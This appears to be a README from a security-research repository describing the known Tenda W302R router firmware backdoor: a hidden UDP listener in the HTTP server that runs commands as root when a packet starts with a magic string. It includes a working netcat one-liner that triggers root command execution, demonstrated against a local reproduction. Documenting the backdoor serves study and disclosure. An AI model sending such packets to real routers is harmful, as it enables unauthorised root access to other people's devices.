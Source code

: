 # Tenda W302R backdoor
- **Type**: hidden command, hardcoded credentials
- **Affected versions**: 3.1.192 - 3.1.202


## Backdoor
he backdoor is found in the executable `/bin/httpd` in the firmware. It is an HTTP server that
seems to be based on [GoAhead](https://www.embedthis.com/goahead/) v2.1.8. The server itself starts
a separate thread, creating a UDP socket bound to port 7329 or 24151 (depending on the router
model). That socket listens for incoming packets starting with the magic string `"w302r_mfg"` or
`"rlink_mfg"` (depending on the router model), and then interprets the rest of the packet as a
command:
- `0x65`: ping the backdoor socket
- `0x31`: run an `iwpriv` command
- `0x78`: run any command as root

## Triggering the backdoor
First, we need to copy the file used as a stand-in for the actual NVRAM to `/tmp`:
```console
$ cp ./original/vendors/Ralink/RT3052/RT2860_default_vlan /tmp/
```
Then, we need to start up the HTTP server (e.g., with the _backdoored_ variant):
```console
$ ./backdoored/user/goahead/src/goahead
```
In a separate terminal, we can trigger the backdoor (e.g., to run `id` as root):
```console
$ echo -en "rlink_mfg x /bin/id" | nc -u localhost 24151
uid=0(root) gid=0(root) groups=0(root)
```


## Reference
<https://web.archive.org/web/20131020145741/http://www.devttys0.com/2013/10/from-china-with-love>
